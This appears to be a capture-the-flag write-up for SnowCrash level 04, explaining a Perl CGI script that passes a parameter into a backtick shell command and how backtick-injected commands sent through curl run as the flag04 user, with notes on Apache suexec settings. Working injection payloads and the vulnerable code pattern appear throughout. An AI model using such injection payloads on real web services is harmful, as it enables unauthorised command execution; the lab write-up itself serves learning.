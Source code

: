 # LEVEL 04

## Vulnerability & exploit

Command substitution on argument provided by privileged user -> Privilege escalation via CGI code injection

## Initial Context

In our home directory, we have a perl script owned by flag04 with suid/guid bit - which means that it will be executed with the rights of its owner (flag04)

```
level04@SnowCrash:~$ ls -la level04.pl
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

From reading the file's content, we see that it's expected to be run the Apache server on port 4747.

## Solving the challenge

First, let's understand what the script does:

```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param}; // Set up a Common Gateway Interface, through which the Apache server will run the program and return its output
print "Content-type: text/html\n\n";
```

It will set up a Common Gateway Interface, through which the Apache server will run the program and return its output

```
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

We see that only the first argument will be kept as \$y - which in the case of a string, will be its first word.
Then, a [command substitution](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html#Command-Substitution) is done to capture the output of the echo command, in order to print it (and this output will, in turn, be returned through the CGI).
Finally, this subroutine will be called on a argument named 'x'

We therefore know that we should pass one word as x.
If that word is a string like "hello", it should be output when running the program:

```
level04@SnowCrash:~$ ./level04.pl x="hello"
Content-type: text/html

hello
```

More interestingly, if we use the convenient backtick notation, we can pass a command and ensure it's run and its output captured and echoed by the subroutine:

```
level04@SnowCrash:~$ ./level04.pl x=`whoami`
Content-type: text/html

level04
```

This is surprising, since the suid bit should make the script run as flag04.
This is because, as of perl 5.14.0, suid/guid bits on scripts are ignored by perl due to security reasons, as seen [here](https://mattmccutchen.net/suidperl.html)
And indeed:

```
level04@SnowCrash:~$ perl --version

This is perl 5, version 14, subversion 2 (v5.14.2) built for i686-linux-gnu-thread-multi-64int
```

But what happens if we run it on port 4747 as instructed?

```
level04@SnowCrash:~$ curl '127.0.0.1:4747/level04.pl?x=`whoami`'
flag04
```

This is who we want to run getflag as! So if we replace `whoami` with `getflag`:

```
level04@SnowCrash:~$ curl '127.0.0.1:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXXX
```

---

### Side notes on permissions

Let's see why the script is run as flag04 on the apache server:
Initially, the permissions are those of the server running on that port - in this case, Apache.
If we filter the current processes, we can see that Apache is running as www-data (we can ignore the process leader running as root):

```
level04@SnowCrash:~$ ps aux | egrep apache
root      1424  0.0  0.6  21340  6188 ?        Ss   01:09   0:01 /usr/sbin/apache2 -k start
www-data  1444  0.0  0.3  21364  3564 ?        S    01:09   0:00 /usr/sbin/apache2 -k start
www-data  1445  0.0  0.3  21364  3564 ?        S    01:09   0:00 /usr/sbin/apache2 -k start
www-data  1446  0.0  0.4  21412  4256 ?        S    01:09   0:00 /usr/sbin/apache2 -k start
www-data  1447  0.0  0.4  21412  4256 ?        S    01:09   0:00 /usr/sbin/apache2 -k start
www-data  1448  0.0  0.4  21412  4256 ?        S    01:09   0:00 /usr/sbin/apache2 -k start
level04   2868  0.0  0.0   4376   812 pts/0    S+   04:08   0:00 egrep --color=auto apache
```

If we look at the script run by the server (not the one in our home directory but another stored somewhere in /var/www)

```
level04@SnowCrash:~$ ls -la `find /var/www -name level04.pl 2>/dev/null`
-r-xr-x---+ 1 flag04 level04 152 Oct 20 01:09 /var/www/level04/level04.pl
```

And at its extended permissions (ACL):

```
level04@SnowCrash:~$ getfacl /var/www/level04/level04.pl
getfacl: Removing leading '/' from absolute path names
# file: var/www/level04/level04.pl
# owner: flag04
# group: level04
user::r-x
group::r-x
group:www-data:r-x
mask::r-x
other::---
```

Everything seems to be set up to run the script as wwww-data, but we know that's not the case since the script clearly runs as flag04, and there is no connection between www-data and flag04:

```
level04@SnowCrash:~$ groups www-data
www-data : www-data
level04@SnowCrash:~$ groups flag04
flag04 : flag04 flag
```

Let's see if there is any configuration to change the default behavior:

```
level04@SnowCrash:~$ ls /etc/apache2/sites-enabled/
000-default  level05.conf  level12.conf

level04@SnowCrash:~$ cat /etc/apache2/sites-enabled/level05.conf
<VirtualHost *:4747>
	DocumentRoot	/var/www/level04/
	SuexecUserGroup flag04 level04
	<Directory /var/www/level04>
		Options +ExecCGI
		DirectoryIndex level04.pl
		AllowOverride None
		Order allow,deny
		Allow from all
		AddHandler cgi-script .pl
	</Directory>
</VirtualHost>
```

Despite the error in the filename, we see that the scrip in /var/www/level04 will in fact be run with user flag04 and group level04.
